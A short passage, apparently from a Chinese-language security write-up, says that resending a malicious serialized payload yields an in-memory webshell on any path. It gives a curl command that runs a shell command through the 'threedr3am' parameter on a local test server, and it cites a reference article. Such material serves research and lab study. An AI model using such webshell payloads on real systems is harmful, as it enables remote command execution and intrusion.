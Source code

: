 > 
> 使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令
> 
> ```
> curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/ 
> ```

## 参考链接

> https://xz.aliyun.com/t/7388#toc-3